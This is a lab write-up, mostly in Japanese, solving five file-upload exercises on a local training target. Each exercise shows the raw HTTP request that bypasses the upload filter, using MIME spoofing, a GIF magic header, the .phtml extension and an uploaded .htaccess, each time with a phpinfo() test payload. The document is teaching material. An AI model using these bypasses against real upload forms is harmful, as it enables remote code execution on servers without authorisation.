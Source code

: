 # Unrestricted File Upload
It is a security vulnerability that occurs as a result of the inability to fully control the files received from the user and may result in remote code execution on the server.

## 1.Unrestricted
`Allowed formats: gif, jpg, jpeg, png`と記述があるが、何も制御されていない。

PHPを素直にアップロードすれば動作する。
```http
POST /lab/file-upload/unrestricted/ HTTP/1.1
Host: 127.0.0.1:1337
Content-Length: 321
Origin: http://127.0.0.1:1337
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary2ogukNAeK3vSdYBq
Referer: http://127.0.0.1:1337/lab/file-upload/unrestricted/

------WebKitFormBoundary2ogukNAeK3vSdYBq
Content-Disposition: form-data; name="input_image"; filename="info.php"
Content-Type: application/octet-stream

<?php phpinfo(); ?>
<hr>
------WebKitFormBoundary2ogukNAeK3vSdYBq
Content-Disposition: form-data; name="submit"


------WebKitFormBoundary2ogukNAeK3vSdYBq--
```

## 2.MIME Type
phpファイルそのままではアップロードできない。

タイトル通り、アップロード時のMIME Typeをチェックしているため、Content-Typeを画像ファイルに差し替えるとPHPをアップロードできる。
```http
POST /lab/file-upload/mime-type/ HTTP/1.1
Host: 127.0.0.1:1337
Content-Length: 307
Origin: http://127.0.0.1:1337
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryra8qozLEk9v3sbI9
Referer: http://127.0.0.1:1337/lab/file-upload/unrestricted/

------WebKitFormBoundaryra8qozLEk9v3sbI9
Content-Disposition: form-data; name="input_image"; filename="info.php"
Content-Type: image/jpeg

<?php phpinfo(); ?>
<hr>
------WebKitFormBoundaryra8qozLEk9v3sbI9
Content-Disposition: form-data; name="submit"


------WebKitFormBoundaryra8qozLEk9v3sbI9--
```

## 3.Magic Header
phpファイルそのままではアップロードできない。

ファイルの内容から画像か否か判断しているため、gifファイルに偽装したPHPファイルをアップロードする。
```http
Host: 127.0.0.1:1337
Content-Length: 327
Origin: http://127.0.0.1:1337
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3dhNIviZIx4AkYmV
Referer: http://127.0.0.1:1337/lab/file-upload/unrestricted/

------WebKitFormBoundary3dhNIviZIx4AkYmV
Content-Disposition: form-data; name="input_image"; filename="info.php"
Content-Type: application/octet-stream

GIF87a<?php phpinfo(); ?>
<hr>
------WebKitFormBoundary3dhNIviZIx4AkYmV
Content-Disposition: form-data; name="submit"


------WebKitFormBoundary3dhNIviZIx4AkYmV--
```

## 4.Blacklist-1
拡張子`php`をブロックしている。

比較的マイナーな拡張子`phtml`を使用してアップロードできる。
```http
POST /lab/file-upload/blacklist-1/ HTTP/1.1
Content-Length: 323
Origin: http://127.0.0.1:1337
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarySwPOLucdLd4VaHoG
Referer: http://127.0.0.1:1337/lab/file-upload/unrestricted/


------WebKitFormBoundarySwPOLucdLd4VaHoG
Content-Disposition: form-data; name="input_image"; filename="info.phtml"
Content-Type: application/octet-stream

<?php phpinfo(); ?>
<hr>
------WebKitFormBoundarySwPOLucdLd4VaHoG
Content-Disposition: form-data; name="submit"


------WebKitFormBoundarySwPOLucdLd4VaHoG--
```

## 5.Blacklist-2
ソースを見ると多くのバリエーションの拡張子がブロックされている。

```php
$extensions = array("php","php1","php2","php3","php4","php5","php6","php7","php8","pht","phtm","phar","phps","html","htm","shtml","phtml","sh","ini","css","js"); //blacklist
```

試していくと、`.htaccess`ファイルをアップロードできることが分かる。  
好きな拡張子をphp実行ファイルとして定義してみる。ここでは`.phpx`とした。
```http
POST /lab/file-upload/blacklist-2/ HTTP/1.1
Content-Length: 334
Origin: http://127.0.0.1:1337
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryLrSXe2AxaysWTIw7
Referer: http://127.0.0.1:1337/lab/file-upload/unrestricted/

------WebKitFormBoundaryLrSXe2AxaysWTIw7
Content-Disposition: form-data; name="input_image"; filename=".htaccess"
Content-Type: application/octet-stream

AddType application/x-httpd-php .phpx
------WebKitFormBoundaryLrSXe2AxaysWTIw7
Content-Disposition: form-data; name="submit"


------WebKitFormBoundaryLrSXe2AxaysWTIw7--
```

これで`.phpx`ファイルがPHPとして動作してくれるはずである。  
phpxファイルを作成し、ノーチェックでアップロード完了。動作することが確認できる。
```http
POST /lab/file-upload/blacklist-2/ HTTP/1.1
Content-Length: 322
Origin: http://127.0.0.1:1337
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryBYa0o1DpzlNoO2eG
Referer: http://127.0.0.1:1337/lab/file-upload/unrestricted/


------WebKitFormBoundaryBYa0o1DpzlNoO2eG
Content-Disposition: form-data; name="input_image"; filename="info.phpx"
Content-Type: application/octet-stream

<?php phpinfo(); ?>
<hr>
------WebKitFormBoundaryBYa0o1DpzlNoO2eG
Content-Disposition: form-data; name="submit"


------WebKitFormBoundaryBYa0o1DpzlNoO2eG--
```
